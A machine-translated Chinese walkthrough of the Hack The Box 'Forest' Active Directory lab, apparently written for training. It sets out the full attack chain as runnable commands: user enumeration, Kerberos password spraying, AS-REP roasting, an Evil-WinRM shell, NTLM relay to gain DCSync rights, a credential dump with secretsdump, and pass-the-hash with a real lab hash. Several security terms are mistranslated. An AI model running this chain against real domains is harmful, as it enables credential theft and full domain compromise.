# [HTB]森林——报道

> 原文：<https://infosecwriteups.com/htb-forest-write-up-fdd45e8e73bf?source=collection_archive---------0----------------------->


欢迎来到 HTB 森林报道！这个盒子是一个由易到难的 Windows 盒子。攻击媒介是非常真实的活动目录利用。

## 初始访问

我们将确定一个不需要 Kerberos 预认证的用户。有了这个，我们就可以执行一个 AS-REP 烘焙来获取她的密码哈希。破解散列后，我们可以通过暴露的 WinRM 服务登录到系统。

## 权限提升

用户是负责用户帐户管理(添加/删除/修改)的“帐户操作员”组的一员。通过该访问权限，我们可以创建一个新用户，并将其添加到“Exchange Windows 权限”组，默认情况下，该组可以在域控制器(= DCSync)上执行复制。这样，我们就可以获得管理员用户的 NTLM 散列来根化机器。

我们开始吧！


# 侦察

_________________________________________________________________

# Nmap

让我们从使用以下命令进行初始端口扫描开始:

```
$ nmap -Pn — open -sC -sV -p- -T4 10.10.10.161
```



**需要注意的有趣端口:**

*   **Kerberos(88/TCP)**—Windows Kerberos 协议服务。
*   **LDAP (389/TCP)** —活动目录 LDAP。LDAP 通常提供关于广告的详细信息。而且如果允许匿名绑定，我们可以查询很多好的广告信息，比如用户信息。
*   **SMB (445/TCP)** — Windows 服务器消息块(“SMB”)协议。对于 SMB，检查它是否允许空会话总是有好处的。如果允许，我们可以像 LDAP 一样列举许多有用的广告信息。
*   **WinRM (5985/TCP)** —微软实现 WS-Management 协议。这可以允许通过 PowerShell 进行远程连接。

# 用户枚举

对于这个盒子，有两种方式枚举 AD 用户: *1) LDAP 空绑定；2) SMB 空会话*。根据我的经验，这两种都是非常常见的错误配置，可以在实际的测试项目中发现。

## #1 — LDAP 空绑定

每当我看到 LDAP 服务时，我都会运行下面的`ldapsearch`命令:

```
$ ldapsearch -H ldap://10.10.10.161 -x -s base '' "(objectClass=*)" "*" +
```

它只是对任何可用的`objectClass`进行基本搜索，但它可以透露一些有用的信息，比如确切的域名上下文。



接下来，我们可以检查 LDAP 上的空绑定。

```
$ ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local
```



而且成功了。我可以继续讲述所有的 LDAP 枚举技术，以及我们可以滥用哪些技术来进行空绑定访问，但是在本演练中，让我们只关注用户枚举:)

所以，对于用户枚举，我们可以搜索`objectClass`作为人，搜索`sAMAccountName:`。

```
**### LDAP User Query**
$ ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local "(objectClass=person)" | grep "sAMAccountName:"sAMAccountName: Guest... Machine Accounts Redacted ...**sAMAccountName: sebastien
sAMAccountName: lucinda
sAMAccountName: andy
sAMAccountName: mark
sAMAccountName: santi**
```

## #2 — SMB 空会话

如果 SMB 允许空身份验证，也可以枚举 AD 用户。为此，我们可以使用一个著名的工具叫做`enum4linux`。这个工具只是一堆其他 rcp 客户机工具的包装器，但是它使它变得如此方便。

```
$ enum4linux -v 10.10.10.161
```

如果允许空会话，这将输出大量数据。它还将枚举所有用户。

```
[V] Attempting to get userlist with command: rpcclient -W '' -c enumdomusers -U''%'' '10.10.10.161' 2>&1
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]... Machine Accounts Redacted ...user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a] **user:[svc-alfresco] rid:[0x47b]             # Additional user found** user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

有趣的是，LDAP `sAMAccountName:`搜索没有识别出“svc-alfresco”用户帐户。进一步研究发现，该帐户是“服务帐户”OU 的一部分，不知何故`sAMAccountName:`并不存在。不太确定是否是因为空绑定访问的限制。


一旦用户枚举完成，我们可以快速检查是否有任何开放共享，我们也可以使用空身份验证访问。然而，这没什么。

```
$ smbclient -L 10.10.10.161
```



# 最初的立足点

_________________________________________________________________

## Kerberos 密码喷涂

HTB 挑战赛很少要求我们进行密码猜测攻击。然而，我当时的想法是，既然我们可以枚举有效用户，并且像 Kerberos、LDAP 和 SMB 这样的协议可用，我们就可以进行一些密码猜测攻击。

在此之前，我很快检查了密码政策的情况下，如果有任何锁定阈值设置。`enum4linux`已找到密码策略信息，并且帐户锁定阈值被设置为“无”



接下来，我们可以使用一个非常方便的 Kerberos 密码猜测工具`[kerbrute](https://github.com/ropnop/kerbrute)`。当您进行内部测试时，基于 Kerberos 的密码猜测比 LDAP 或 SMB 等其他密码猜测更受欢迎。有几个原因，但最大的原因是因为: *1)并不是所有的环境监视器都会发现 Kerberos 身份验证失败；2)基于 Kerberos 的认证比其他的快很多；3)当登录失败时，它往往会给我们一些详细的错误*。

在使用密码列表进行全面的密码猜测之前，我使用 verbose 选项测试了该工具。它最终发现了一个不需要预认证的用户(= svc-alfresco)。

```
$ ./kerbrute passwordspray -d htb.local --dc 10.10.10.161 user.txt 'password123' -v
```



## 砷焙烧

对于未启用预认证的用户帐户，很容易受到冒充攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，而 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解。

使用`Impacket`的`GetNPUsers.py`脚本，我们可以进行攻击:

```
$ ./GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161
```



用 rockyou.txt 运行与`John`的 hash，可以成功破解“svc-alfresco”用户(= s3rvice)的明文密码。



使用`CrackMapExec`，我们可以确认密码是否有效。



## 邪恶-WinRM

从`nmap`扫描来看，我们可以用来获得交互式 shell 的服务很少:SMB (TCP/445)和 WinRM (TCP/5985)。对于中小型企业来说，除非我们有机器上的管理权限，否则我们使用远程客户端如`psexec.py`或`wmiexec.py`获得外壳是有限的。但是，对于 WinRM，如果我们的用户帐户是“远程管理用户”组的一部分，我们可以获得一个基于 PowerShell 的 Shell。我使用以下命令来验证“svc-alfresco”用户确实是“远程管理用户”的一部分:

```
**[LDAP to Query Members of the "Remote Management Users"]**
$ ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local | grep -A 11 -i "Remote Management Users"**[NET RPC Command - Query "Privileged IT Accounts"]**
$ net rpc group members 'Privileged IT Accounts' -W 'htb.local' -I '10.10.10.161' -U'svc-alfresco'%'s3rvice' 2>&1**[NET RPC Command - Query "Service Accounts"]**
$ net rpc group members 'Service Accounts' -W 'htb.local' -I '10.10.10.161' -U'svc-alfresco'%'s3rvice' 2>&1
```



对于外壳，我们可以使用一个叫做`[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)`的工具。

```
$ ruby evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
```


## user.txt

太好了。有了这个权限，我们可以读取`user.txt`文件。



# 权限提升

_________________________________________________________________

## 猎犬

因为我们有一组有效的凭证，所以我们可以利用一个名为`[Bloodhound](https://github.com/BloodHoundAD/BloodHound)`的强大的活动目录审计工具。对于 ingester，我使用了它的 python 版本。

```
$ ./bloodhound.py -u svc-alfresco -p s3rvice -d htb.local -ns 10.10.10.161
```



一旦完成，我将结果输入到图形视图的`Bloodhound`中。并搜索了“svc-alfresco”用户。这表明该用户实际上是“帐户操作员”组的一部分。


这是 AD 中的特权组之一，可以执行以下操作:



来源:[https://adsecurity.org/?p=3658](https://adsecurity.org/?p=3658)

## 使用 Exchange 提升权限

当我们还查询域组时，我们可以看到与 Exchange 相关的组。



因为我们知道“Account Operators”组可以创建一个新用户，并将其添加到域组(除了管理组，如“Domain Admins”)，所以我们可以利用这一点来进行以下权限提升攻击，以授予我们 DCSync 权限(Fox 的原始记录-可以在此处找到):

1.  创建一个新用户，并将其添加到`Exchange Trusted Subsystem`安全组。(默认情况下，该组是对安装了 Exchange 的域的域对象拥有`writeDACL`权限的`Exchange Windows Permissions`安全组的成员。)

```
**[Forest Box] - WinRM Session**PS C:\> net user bigb0ss bigb0ss /add /domain
PS C:\> net group "Exchange Trusted Subsystem" bigb0ss /add /domain
```



2.使用`--escalate-user`标志运行`ntlmrelayx.py`中间人(“mitm”)工具。这实际上是当它识别出“bigb0ss”用户在同一网络上的登录尝试时，它将自动检查用户权限，如果它可以修改域 ACL，它将修改用户权限，以向用户帐户添加`Replication-Get-Changes-All`权限，这可以执行 DCSync。

```
**[My Kali Box] - Screen #1**$ ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user bigb0ss
```



3.然后，我们将使用“bigb0ss”帐户进行随机身份验证。在这种情况下，我使用`psexec.py`对我自己的 Kali box 进行了一次认证尝试。

```
**[My Kali Box] - Screen #2**$ psexec.py htb.local/bigb0ss:bigb0ss@10.10.14.39
```

显然，这将会失败，因为我的 Kali 机器上没有运行 SMB 服务，而且它也不是我机器的有效凭证。



4.然而，`ntlmrelay.py`工具会将捕获到的`htb.local/bigb0ss:bigb0ss`的认证尝试转发给`ldap://10.10.10.161`(森林盒子)。由于它是 Forces box 的有效凭证，它将成功地验证并提升我们添加`Replication-Get-Changes-All`的权限。



## 数据同步

随着权限的提升，我们可以使用`secretsdump.py`工具执行 DCSync 来转储“管理员”用户的 NTLM 散列。

```
**### DCSync**
$ secretsdump.py htb.local/bigb0ss:bigb0ss@10.10.10.161 -just-dc-user administrator
```



## root.txt

使用`psexec.py`，我们现在可以作为“管理员”用户登录并读取`root.txt`文件。

```
**### PSExec**
$ psexec.py htb.local/administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```



# 结论

_________________________________________________________________

老实说，这是第一台复制真实广告的 HTB 机器。作为一名圣灵降临者，我真的很喜欢做这件事，也确实学到了很多。希望你也喜欢我的文章，感谢你的阅读！

